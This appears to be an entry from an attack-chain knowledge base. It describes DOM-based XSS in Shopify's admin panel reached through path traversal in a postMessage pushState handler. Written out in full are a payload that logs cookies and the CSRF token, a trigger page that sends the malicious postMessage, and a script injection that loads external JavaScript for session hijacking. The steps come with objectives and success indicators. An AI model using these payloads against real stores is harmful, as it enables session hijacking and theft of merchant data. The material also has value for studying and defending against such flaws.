

---
tags:
  - xss
  - path-traversal
  - dom-xss
  - shopify
  - session-hijacking
  - data-theft
type: attack_chain
tools:
  - '[[tools/Google-Chrome]]'
tactics:
  - '[[Execution]]'
  - '[[Collection]]'
commands:
  - '[[commands/xss-alert-and-log-sensitive-data]]'
  - '[[commands/attack-trigger-pushstate]]'
  - '[[commands/inject-external-malicious-script]]'
  - '[[commands/attack-trigger-replacestate-xss]]'
  - '[[commands/attack-trigger-invalid-path-bypass]]'
verified: false
platforms:
  - Web
submitted: true
complexity: medium
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Create-XSS-Payload-Page]]'
  - '[[procedures/Create-Attack-Trigger-Page]]'
  - '[[procedures/Open-Attack-Page-in-Browser]]'
  - '[[procedures/Trigger-XSS-in-Admin-Panel]]'
  - '[[procedures/Inject-External-Script-for-Session-Hijacking]]'
  - '[[procedures/Alternative-Trigger-via-replaceState]]'
  - '[[procedures/Bypass-Prefix-with-Invalid-Path]]'
step_count: 7
techniques:
  - '[[JavaScript]]'
  - '[[Drive-by Compromise]]'
updated_at: '2025-12-14T17:30:18.444Z'
description: >-
  Multi-stage attack exploiting lack of validation in Shopify's admin panel
  JavaScript to perform path traversal and execute DOM-based XSS, leading to
  session hijacking and data theft.
skill_level: intermediate
impact_level: high
id: f070a34e-9f68-42e6-90d1-6693e4a84e97
validated: true
mitre_tactics:
  - '[[Execution]]'
  - '[[Collection]]'
mitre_techniques:
  - '[[JavaScript]]'
  - '[[Drive-by Compromise]]'
---
# Shopify Admin Panel DOM-based XSS via Path Traversal in pushState

Multi-stage attack chain demonstrating exploitation of Shopify's admin panel vulnerability through path traversal in the handleRoutePushEvent function, enabling DOM-based XSS execution and potential full session compromise.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 7 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/Google-Chrome]]

### Target Environment

- Shopify store with admin access
- Web browser (Chrome recommended)
- Ability to create custom pages in Shopify storefront

### Initial Access Requirements

- Access to Shopify store admin to create pages
- Open admin tab in browser
- No special credentials beyond store owner access

## Detailed Attack Procedures

### Step 1: Create XSS Payload Page
procedure: [[procedures/Create-XSS-Payload-Page]]

**Objective**: Set up a storefront page containing an XSS payload that will execute when loaded into the admin frame.

**Instructions**: In the Shopify admin, create a new page at '/pages/xss' and inject the payload using [[commands/xss-alert-and-log-sensitive-data]]:

```html
<script>alert("XSS By Tiago")console.log("Document:", document)console.log("Window:", window)console.log("Cookies:", document.cookie)console.log("Location:", window.location)console.log("CSRF Token:", document.querySelectorAll('[data-serialized-id="csrf"]')[0].innerText)</script>
```

**Expected Output**: Page created successfully; payload ready for loading.

**Success Indicators**:
- Page visible at https://[STORE].myshopify.com/pages/xss
- No errors in page creation

### Step 2: Create Attack Trigger Page
procedure: [[procedures/Create-Attack-Trigger-Page]]

**Objective**: Build a page that opens the admin and sends postMessage to trigger the path traversal.

**Instructions**: Create another page at '/pages/xss-play' with the trigger script using [[commands/attack-trigger-pushstate]]:

```html
<script>function attack(){const ctx = window.open(location.origin+'/admin/themes','_blank')const data =JSON.stringify({message:'Shopify.API.pushState',data:{pathname:"/../pages/xss"}});let interval; interval =setInterval(function(){if(window.attackSuccess){clearInterval(interval)}else{ ctx.postMessage(data)}},500)}attack()</script><a href="javascript:attack()" style="display:block;text-align:center;width:100%;height:300px;line-height:300px;background:#000;color:#fff;">click me start attack</a>
```

**Expected Output**: Trigger page created; clicking the link initiates the attack.

**Success Indicators**:
- Page loads without errors
- Script executes on click

### Step 3: Open the Attack Page
procedure: [[procedures/Open-Attack-Page-in-Browser]]

**Objective**: Navigate to the trigger page to start the exploitation process.

**Instructions**: Using [[tools/Google-Chrome]], visit https://[STORE].myshopify.com/pages/xss-play and click the attack button.

**Expected Output**: Admin themes page opens in a new tab; postMessage attempts begin.

**Success Indicators**:
- New window opens to /admin/themes
- Console shows postMessage intervals

### Step 4: Admin Panel Executes the XSS
procedure: [[procedures/Trigger-XSS-in-Admin-Panel]]

**Objective**: With admin open, trigger the route change to load the XSS page into the admin frame.

**Instructions**: Ensure an admin tab (e.g., themes) is open; the postMessage from the storefront will push the state, loading /pages/xss into AppFrameMain.

**Expected Output**: Alert 'XSS By Tiago' in admin tab; console logs sensitive data like cookies and CSRF token.

**Success Indicators**:
- XSS alert fires in admin context
- Sensitive data logged to console

### Step 5: For Full Session Control, Replace XSS Script and Interact
procedure: [[procedures/Inject-External-Script-for-Session-Hijacking]]

**Objective**: Upgrade the payload to load an external script for persistent compromise.

**Instructions**: Update the /pages/xss script with [[commands/inject-external-malicious-script]]:

```html
<script>document.getElementsByTagName('head')[0].innerHTML +='<script type="text/javascript" src="https://cdn.jsdelivr.net/npm/[YOU_HACK_PACKAGE]/dist/webpack.js"/>'</script>
```
Repeat steps 2-4, then interact by clicking a menu like 'orders' to fully compromise.

**Expected Output**: External script loads and executes in admin; session under attacker control.

**Success Indicators**:
- External JS injected
- Admin actions hijacked

### Step 6: Alternative Trigger Using replaceState
procedure: [[procedures/Alternative-Trigger-via-replacestate]]

**Objective**: Use replaceState for equivalent exploitation without history push.

**Instructions**: Modify the trigger page's postMessage data to use [[commands/attack-trigger-replacestate-xss]] instead of pushState.

**Expected Output**: Route replaces to load XSS page without adding to history.

**Success Indicators**:
- XSS executes similarly
- No history entry added

### Step 7: Bypass Prefix Limitation with Invalid Path
procedure: [[procedures/Bypass-Prefix-with-Invalid-Path]]

**Objective**: Use invalid path to redirect and expose admin interface.

**Instructions**: Update postMessage with [[commands/attack-trigger-invalid-path-bypass]]:

**Expected Output**: Redirects to /password (if enabled), exposing admin.

**Success Indicators**:
- Admin panel visible at unexpected path
- Potential for further injection

## Attack Chain Summary

### Key Achievements

1. Path traversal to load storefront XSS into admin frame
2. Theft of CSRF tokens, cookies, and store config
3. Full session hijacking via external script injection

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[JavaScript]]
- [[Drive-by Compromise]]

### MITRE ATT&CK Tactics

- [[Execution]]
- [[Collection]]

---
*Last updated: 2023-10-01T00:00:00Z*
